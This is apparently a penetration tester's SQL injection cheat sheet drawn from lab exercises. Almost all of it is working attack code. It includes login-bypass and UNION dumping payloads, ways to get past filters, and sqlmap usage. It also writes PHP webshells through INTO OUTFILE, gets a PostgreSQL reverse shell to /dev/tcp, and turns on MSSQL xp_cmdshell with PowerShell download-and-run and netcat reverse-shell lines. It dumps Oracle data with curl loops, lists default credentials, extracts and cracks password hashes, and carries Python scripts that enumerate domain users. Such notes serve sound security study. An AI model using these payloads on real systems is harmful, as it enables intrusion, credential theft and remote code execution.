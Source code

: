 # SQLi

<details>

<summary>Common SQLi payload</summary>

```sql
' OR 1=1-- -

# LIMIT X,1 to get the xth user (0 based).
' OR 1=1 LIMIT 1-- -
' or 1=1 LIMIT 0,1-- -

' OR '1'='1
```

</details>

### Determing which type of DB

| Type of DB | Method                                                           |
| ---------- | ---------------------------------------------------------------- |
| MySQL      | `SELECT @@version`                                               |
| SQLite     | `SELECT sqlite_version()`                                        |
| Microsoft  | `SELECT @@version`                                               |
| PostgreSQL | `SELECT version()`                                               |
| Oracle     | `SELECT banner FROM v$version`, `SELECT version FROM v$instance` |

### Commenting in SQL

<figure><img src="../.gitbook/assets/sql comments.jpg" alt=""><figcaption></figcaption></figure>

The figure above summarizes the syntax for commenting in various SQL DB. Do note that for MySQL, `-- -` is required for commenting instead of `--` as a whitespace or control character is required after the second dash.

> When using `#` as a comment for MySQL, there’s no need to add a space after.

### Nuances between diff DB

* Oracle requires every `SELECT` statement to include a `FROM` attribute. (`UNION SELECT NULL`will fail, need to be `UNION SELECT NULL FROM DUAL` instead) (`DUAL` is a globally accessible table)

<details>

<summary>SQLi to PHP Webshell (RCE)</summary>

```bash
debug.php?id=1 union all select 1, 2, "<?php echo '<pre>' . shell_exec($_GET['cmd']);?> . '</pre>';?>" into OUTFILE "c:/xampp/htdocs/backdoor.php"
```

```sql
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

```sql
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -'  
```

</details>

#### Overview for SQLi <a href="#overview-for-sqli" id="overview-for-sqli"></a>

| No.   | Steps                                                                          | Method                                                                                                                                                                                                         |
| ----- | ------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1     | Identify instances where application access DB                                 | Look at URL param, cookies, POST data, HTTP headers                                                                                                                                                            |
| 2     | Try injecting SQL                                                              | Start with single quotes, concatenator characters, eg: `' 'FOO`                                                                                                                                                |
| 3     | Determine no. of cols                                                          | `' UNION SELECT NULL -- -`, `' UNION SELECT NULL,NULL -- -` … until there’s no error                                                                                                                           |
| 4.1   | Determine which cols have string data type                                     | `' UNION SELECT 'a', NULL, NULL -- -`, `' UNION SELECT NULL, 'a', NULL -- -`, `' UNION SELECT NULL, NULL, 'a' -- -` … until there’s no error                                                                   |
| 4.2   | Determine which cols have numeric data type                                    | `' UNION SELECT 1, NULL, NULL -- -`, `' UNION SELECT NULL, 1, NULL -- -`, `' UNION SELECT NULL, NULL, 1 -- -`… until there’s no error                                                                          |
| 4.3   | Use conditional responses if there’s no direct method of transmitting data     | `admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` login succeeds means first char for password is `q`                                                                                                       |
| 4.4.1 | Use conditional errors if there’s no noticeable effect on application behavior | `SELECT 1/0 FROM dual WHERE (SELECT username FROM users WHERE username = 'alice') = 'alice'`. dual is default dummy table present in most DB. If query has error, means `alice` is a valid username            |
| 4.4.2 | Conditional errors (time delay)                                                | `' UNION SELECT IF(ASCII(SUBSTRING(@@version,1,1))=49,BENCHMARK(5000000,SHA1('dummy_data')),NULL),NULL,NULL -- -`. If first char of database version is `1` (ASCII: 49), will have delay in server’s response. |
| 5     | Extracting table and cols name                                                 | `' UNION SELECT table_name, column_name, NULL FROM information_schema.columns -- -`                                                                                                                            |
| 6.1   | Dumping DB using multi cols with string data type                              | `' UNION SELECT first_name, last_name, employee_id FROM dependents –- -`                                                                                                                                       |
| 6.2   | Dumping DB using 1 col with string data type                                   | `SELECT CONCAT(username,':',password), NULL, NULL from users -- -`                                                                                                                                             |
| 6.3   | Dumping DB using multi cols with numeric data type                             | `' UNION SELECT ASCII(SUBSTRING(password,1,1)),NULL,NULL FROM users WHERE username='admin' -- -` (returns 113, i.e., ‘q’)                                                                                      |
| 6.4   | Dumping DB using conditional responses                                         | `admin' and ASCII(SUBSTRING(password,1,1))=113 -- -` (login succeeds) ASCII 113 corresponds to letter ‘q’                                                                                                      |

<details>

<summary>Search for interesting table, col name</summary>

```sql
SELECT table_name,column_name FROM information_schema.columns where column_name LIKE '%PASS%'
```

</details>

<details>

<summary>Concat multi cols to single col</summary>

### Oracle

```sql
SELECT table_name||':'||column_name FROM
all_tab_columns
```

### MSSQL

```sql
SELECT table_name+':'+column_name from information_schema.columns
```

### MySQL

```sql
SELECT CONCAT(table_name,’:’,column_name) from information_schema.columns
```

</details>

#### Bypassing filters <a href="#bypassing-filters" id="bypassing-filters"></a>

| Types of blacklisting filter | Ways to bypass                                                                                                                                                                                                    |
| ---------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Strings                      | Use CHAR() function to construct strings. eg: `CHAR(109)+CHAR(97)` is equals to `'ma'`                                                                                                                            |
| Comments                     | Use `' OR 'a'='a` instead of `' OR 1=1 -- -`                                                                                                                                                                      |
| Keywords                     | Try mix of different cases, adding null byte in front, manipulating string, converting string to URL encoded form. Eg: `SELECT` is banned but can try `SeLeCt`, `%00SELECT`, `SELSELECTECT`, `%53%45%4c%45%43%54` |

#### SQLmap <a href="#sqlmap" id="sqlmap"></a>

| Types of attack                   | Methods                                                                                         |
| --------------------------------- | ----------------------------------------------------------------------------------------------- |
| POST request                      | `sqlmap -u <URL> --cookie='PHPSESSID=op2….' --data='user=a&pass=a' -p user --technique=B --dbs` |
| GET request                       | `sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U --dbs`                     |
| Using Request file from Burpsuite | `sqlmap -r <path to .req file> -p user –dbs`                                                    |

```
--dbs: show the databases connected to the application
-D database_name --tables: show all tables in db
-T table_name --columns: show all columns of the db
-C column1,column2  --dump: dump all the contents of the columns
```

<details>

<summary>Second Order SQLi</summary>

When data is first inserted into the DB, it is properly sanitised. Afterwards, it may be processed in unsafe ways.

Eg: When a user search for the term `O'Reilly`, the query term was `SELECT author,title,year FROM books WHERE publisher='O''Reilly'`. Notice how the quotation mark after `O` was escaped. However, when the `publisher` was being called in a later query, it might have the search string `SELECT * FROM publisher='O'Reilly'`. This causes second-order SQLi.

</details>

<details>

<summary>Interacting with SQL servers</summary>

#### MySQL

```bash
mysql --host=192.168.163.220 -u root -proot 
```

```sql
SHOW DATABASES;
```

```sql
USE <database_name>;
```

```sql
SHOW TABLES;
```

```sql
SELECT * FROM <table_name>;
```

#### NoSQL (eg: MongoDB)

```bash
apt-get install mongodb-clients
mongo --host 192.168.192.110:27017
```

* Tables in MySQL \~ Collections in Mongo
* Rows in MySQL \~ Documents in Mongo
* Columns in MySQL \~ Fields in Mongo
* $and equivalent to AND in MySQL
* $or equivalent to OR in MySQL
* $eq equivalent to = in MySQL

```sql
SHOW databases;
```

```sql
USE <database_name>;
```

```sql
SHOW collections;
```

```sql
db.<collection_name>.find();
```

### PostgreSQL

```sql
psql -U christine -h localhost -p 1234
```

List existing databases:

```
\l
```

Select a database:

```
\c <database_name>
```

List the database's tables:

```
\dt
```

Dump tables' content:

```sql
SELECT * FROM <table_name>;
```

</details>

<details>

<summary>Logging in to MySQL</summary>

```bash
mysql --host=192.168.163.220 -u root -proot 
```

</details>

<details>

<summary>Logging in to MongoDB</summary>

```bash

mongo --host 192.168.192.110:27017
```

</details>

<details>

<summary>Logging in to PostgreSQL</summary>

```bash
psql -h 192.168.208.47 -p 5437 -U postgres 
```

Creds to try:

```bash
postgres:<blank>
postgres:postgres
admin:admin
```

</details>

<details>

<summary>PostgreSQL to reverse shell</summary>

Tells the backend database to create a new table utilizing a cmd\_exe function which then use to initiate a reverse shell

```sql
'; CREATE TABLE cmd_exec(cmd_output text); --
```

```sql
'; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.14.225/1234 0>&1'''; -- 
```

```sql
postgres-# \l
                                                List of databases
   Name    |  Owner   | Encoding |  Collate   |   Ctype    | ICU Locale | Locale Provider |   Access privileges   
-----------+----------+----------+------------+------------+------------+-----------------+-----------------------
 postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
           |          |          |            |            |            |                 | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/postgres          +
           |          |          |            |            |            |                 | postgres=CTc/postgres
(3 rows)

postgres-# \c postgres
psql (15.2 (Debian 15.2-2), server 12.3 (Debian 12.3-1.pgdg100+1))
You are now connected to database "postgres" as user "postgres".
postgres-# CREATE TABLE cmd_exec(cmd_output text);
postgres=# COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/192.168.45.5/80 0>&1''';


┌──(root㉿kali)-[/home/kali/Documents/pg_practice/192.168.159.60]
└─# nc -lvp 80  
listening on [any] 80 ...
192.168.159.60: inverse host lookup failed: Unknown host
connect to [192.168.45.5] from (UNKNOWN) [192.168.159.60] 44254
bash: cannot set terminal process group (177): Inappropriate ioctl for device
bash: no job control in this shell
postgres@326cfee15738:~/data$ whoami
whoami
postgres
```

</details>

<details>

<summary>Oracle SQLi</summary>

### Retrieve Current User

```bash
sdfas' AND 1=CTXSYS.DRITHSX.SN(user,(select user from dual))-- -
```

![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

`WEB_APP`

### Retrieve Database

```bash
sdfas' AND 1=CTXSYS.DRITHSX.SN(user,(SELECT SYS.DATABASE_NAME FROM DUAL))-- -
```

![](<../.gitbook/assets/image (20).png>)

`XE`

### Retrieve tables

* Can only retrieve on table name at a time

![](<../.gitbook/assets/image (53).png>)

```bash
admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT username FROM (SELECT ROWNUM r,username,password FROM all_users ORDER BY username) WHERE r=1))-- AeSCD
```

### Bash scripting to retrieve all tables

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT table_name FROM (SELECT ROWNUM r,table_name FROM all_tables ORDER BY table_name) WHERE r=${NUM}))-- AeSCD&password=sdfdsaf" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* Found `WEB_ADMINS` table

### Find Cols

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT column_name FROM (SELECT ROWNUM r,column_name FROM all_tab_columns WHERE table_name = 'WEB_ADMINS') WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* ADMIN\_ID
* ADMIN\_NAME
* PASSWORD

### Dump Cols

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT ADMIN_NAME FROM (SELECT ROWNUM r,ADMIN_NAME FROM WEB_ADMINS ORDER BY ADMIN_ID) WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* user named `admin`

```bash
for NUM in {1..1000}; do curl -sLkX POST --url <http://10.11.1.222:8080/blog/loginprocess.jsp> --data-urlencode "username=admin' OR 1=CTXSYS.DRITHSX.SN(user,(SELECT PASSWORD FROM (SELECT ROWNUM r,PASSWORD FROM WEB_ADMINS ORDER BY ADMIN_ID) WHERE r=${NUM}))-- AeSCD&password=ASIJDSA" | grep -E "^DRG.*" | cut -d ' ' -f 3 | sort -u; sleep 10; done
```

* password = `d82494f05d6917ba02f7aaa29689ccb444bb73f20380876cb05d1f37537b7892` —> `adminadmin`

</details>

<details>

<summary>MSSQLi</summary>

```sql
' OR 1=1-- -
' UNION SELECT @@version,1-- -
' UNION SELECT DB_NAME(), 1-- -
' UNION SELECT table_name, 1 FROM information_schema.columns-- -
' UNION SELECT name, 1 FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'users')-- -
' UNION SELECT CONCAT(id,',',name,',',pass), 1 FROM users-- -
```

### ALWAYS TEST FOR xp\_cmdshell in SQLi

```bash
python3 mkpsrevshell.py 192.168.45.162 443
# powershell -e JABjAGwAaQBlAG4A...

# SQLi Query for xp_cmdshell PS rev shell
' EXEC xp_cmdshell 'powershell -e JABjAGwAaQBlAG4AdAAgAD...
```

### Manual xp\_cmdshell

```sql
#Check if Sysadmin --> will return 1
' UNION SELECT is_srvrolemember('sysadmin'), 1-- -

' UNION SELECT 'hi', 1;EXEC sp_configure 'show advanced options', 1-- -
' UNION SELECT 'hi', 1;RECONFIGURE-- -
' UNION SELECT 'hi', 1;EXEC sp_configure 'xp_cmdshell', 1-- -
' UNION SELECT 'hi', 1;RECONFIGURE-- -

' UNION SELECT 'hi', 1; EXEC xp_cmdshell "powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.189/runall.ps1')"-- -
# ' UNION SELECT 'hi', 1; EXEC xp_cmdshell 'powershell -c cd c:\windows\temp;wget http://192.168.45.197/nc64.exe -outfile nc64.exe'-- -
# ' UNION SELECT 'hi', 1; EXEC xp_cmdshell 'powershell -c c:\windows\temp\nc64.exe -e cmd.exe 192.168.45.197 443'-- -
```

### More advanced manual enumeration

```sql
# Determine the number of columns (see that col 2 is visible)
10' UNION SELECT 1,2,3,4,5,6-- -
# Show database name
10' UNION SELECT 1,(SELECT DB_NAME()),3,4,5,6-- -
# Show table names
10' union select 1, (SELECT STRING_AGG(name, ',') name FROM STREAMIO..sysobjects WHERE xtype= 'U'),3,4,5,6-- -
# Show column names
10' UNION SELECT 1,name,3,4,5,6 FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')-- -
# Dump Usernames and Passwords
10' union select 1,CONCAT(username, ': ', password),3,4,5,6 FROM users-- -
```

### If JSON payload is caught by firewall, use UTF-16 instead

```python
# utf_converter.py
input=raw_input('> ').strip()
utf=[]
for i in input:
    utf.append("\\u00"+hex(ord(i)).split('x')[1])
print ''.join([i for i in utf])

-------
python2 utf_converter.py
a' UNION SELECT 1,2,3,4,5;-- -
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Obtain MSSQL Server Login Creds

<pre class="language-sql"><code class="lang-sql">' UNION SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash), 1 FROM master.sys.sql_logins-- -
<strong>
</strong><strong>#Artist name: sa-0x020017264e939f9e1ec90ffd4c612716904c9a05f8f51ff0e2e470afd917b1bff2cf8248d2661539cc300512bffcf6898271e532ba7cb64cf85a97883f27f9868beae551539e - From the year: 1
</strong></code></pre>

SA hash:

* 0200 —>version (SHA-2 512bit)
* Salt (4 Bytes) —> 17264e93
* Hash (64 Bytes) —> 9f9e1ec90ffd4c612716904c9a05f8f51ff0e2e470afd917b1bff2cf8248d2661539cc300512bffcf6898271e532ba7cb64cf85a97883f27f9868beae551539e

Cracking with hashcat:

<pre class="language-bash"><code class="lang-bash"><strong># Hash.txt: &#x3C;hash>:&#x3C;salt>
</strong><strong># 9f9e1ec90ff...:17264e93
</strong><strong>hashcat -m 1710 -a 0 hash.txt rockyou.txt
</strong></code></pre>

</details>

<details>

<summary>Unique MSSQLi</summary>

### Susceptible to SQLi?

* put in `'` and crash occurred

### What the insert statement would look like

```sql
INSERT INTO users_DB (username, password) VALUES ('admin', 'admin')
```

### Where to get the Error-based MSSQL payloads?

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL)&#x20;

```sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```

* However, the payloads will not work right off the bat because the context is that it’s an `insert` statement instead of the usual `select` statement.

### Show version MSSQL SQLi

```sql
' + cast((SELECT @@version) as int) + ')
```

so the new insert statement will be:

```sql
INSERT INTO users_DB (username, password) VALUES ('' + cast((SELECT @@version) as int) + ')', 'admin')
```

### Show DB in MSSQL

```sql
' + cast((SELECT DB_NAME()) as int) + ')
```

* DB name —> `newsletter`

### Show table names

* unable to dump more than 1 row at a time.
* concat all rows ([https://www.mytecbits.com/microsoft/sql-server/concatenate-multiple-rows-into-single-string](https://www.mytecbits.com/microsoft/sql-server/concatenate-multiple-rows-into-single-string))

```sql
' + cast((SELECT ',' + table_name AS 'data()' FROM information_schema.columns FOR XML PATH ('') ) as int) + ') 
```

* tables are called `users`

### Show Cols names

```sql
' + cast((SELECT ',' + column_name AS 'data()' FROM information_schema.columns FOR XML PATH ('') ) as int) + ') 
```

* Found cols: `email, userid, username`

#### Dump email,user\_id,username data

#### Dump Email

```sql
' + cast( (SELECT ',' + email AS 'data()' FROM users FOR XML PATH ('')) as int) + ') 
```

* Found the emails

#### Dump username

```sql
' + cast( (SELECT ',' + username AS 'data()' FROM users FOR XML PATH ('')) as int) + ')
```

* Found usernames

### Show all databases

```sql
' + cast( (SELECT ',' + name AS 'data()' FROM master..sysdatabases FOR XML PATH ('')) as int) + ')
```

* Found dbs

### Show table in archive DB

```sql
' + cast((SELECT name FROM archive..sysobjects WHERE xtype = 'U') as int) + ') 
```

* Found the `pmanager` table

### Show the cols in `archive` DB

```sql
' + cast((SELECT ',' + archive..syscolumns.name AS 'data()' FROM archive..syscolumns FOR XML PATH ('')) as int) + ') 
```

* Found this:

```sql
alogin ,id ,psw ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation ,binary_message_body ,conversation_group_id ,conversation_handle ,fragment_bitmap ,fragment_size ,message_enqueue_time ,message_id ,message_sequence_number ,message_type_id ,next_fragment ,priority ,queuing_order ,service_contract_id ,service_id ,status ,validation
```

* There’s `id` and `psw`

### Dump the `psw` cols

```sql
' + cast((SELECT ',' + psw AS 'data()' FROM archive..pmanager FOR XML PATH ('')) as int) + ') 
```

Found password hashes

#### Dump `alogin` col

```sql
' + cast((SELECT ',' + alogin AS 'data()' FROM archive..pmanager FOR XML PATH ('')) as int) + ') 
```



</details>

<details>

<summary>Enumerate Domain Usernames from MSSQL Injection</summary>

```python
#!/usr/bin/env python2
import json
import requests
from time import sleep

url = 'http://10.10.10.179/api/getColleagues'

def unicode(str):
    utf = []
    for i in str:
        utf.append("\\u00" + hex(ord(i)).split("x")[1])
    return ''.join(i for i in utf)

sid = ''
for i in range(1, 29):
    payload = (
        "test' UNION SELECT "
        "SUBSTRING(SUSER_SID('MegaCorp\\Administrator'),{},1),2,3,4,5-- -"
    ).format(i)

    r = requests.post(
        url,
        data='{"name":"'+ unicode(payload) + '"}',
        headers={'Content-Type':'Application/json'}
    )
    id = json.loads(r.text)[0]["id"]
    if len(str(id)) == 1:
        id = '0' + str(id)
    else:
        id = hex(id).split('x')[1]
    sleep(2)
    sid += id

print "Full SID (hex): 0x%s" % sid

domain_sid = sid[:48]
print "Domain SID (hex): 0x%s" % domain_sid

rid = sid[48:]
print "RID (hex): 0x%s" % rid

```

<figure><img src="../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>RID is 0xf401 in big endian, converting to little endian = 0x01f4 = 500 in decimal</p></figcaption></figure>

Bruteforce all the users with RID > 1100 to 1200:

```bash
import json
import requests
from time import sleep

url = 'http://10.10.10.179/api/getColleagues'

def unicode(str):
    utf=[]
    for i in str:
        utf.append("\\u00"+hex(ord(i)).split("x")[1])
    return ''.join(i for i in utf)

sid=''
for i in range(1100,1200):
    i=hex(i)[2:].upper()
    if len(i)<4:
        i='0'+i
    t=bytearray.fromhex(i)
    t.reverse()
    t=''.join(format(x,'02x') for x in t).upper()+'0'*4
    sid='0x0105000000000005150000001c00d1bcd181f1492bdfc236{}'.format(t)
    payload="test' UNION SELECT 1,SUSER_SNAME({}),3,4,5-- -".format(sid)
    r = requests.post(
        url,
        data='{"name":"'+ unicode(payload) + '"}',
        headers={'Content-Type':'Application/json'}
    )
    user=json.loads(r.text)[0]['name']
    if user:
        print user
    sleep(2)

```

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>MySQLi Upload Webshell</summary>

```
#Check if user has ability to write files
test' UNION SELECT 1,2,3,4,GROUP_CONCAT(user," : ",file_priv,"\n"),6 FROM mysql.user WHERE FILE_PRIV='Y'-- -
```

```
# Upload Webshell
Asus' union select '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 into outfile 'c:/inetpub/wwwroot/command.php'#

# Interact with Webshell
curl 'http://10.10.10.167/command.php?cmd=whoami'
```

<figure><img src="../.gitbook/assets/image (352).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>MySQLi Against Prepared Statement</summary>

Adding a quote in the username field shows SQL error!

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

trying `' OR 1=1-- -` --> shows error code 200 (might have WAF in place, try other payloads)

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Trying `' OR 2>0-- -` --> has column out of range error

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

`' OR 2>0 OR 'hi' = 'hi` --> will bypass login!!!

```sql
# Initial SQL
SELECT * FROM USERS WHERE username='bob' AND password='password'

# After SQLI
SELECT * FROM USERS WHERE username='' OR 2>0 OR 'hi' = 'hi' AND password='password'
```

</details>

<details>

<summary>Links</summary>

[Burpsuite SQL Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

</details>
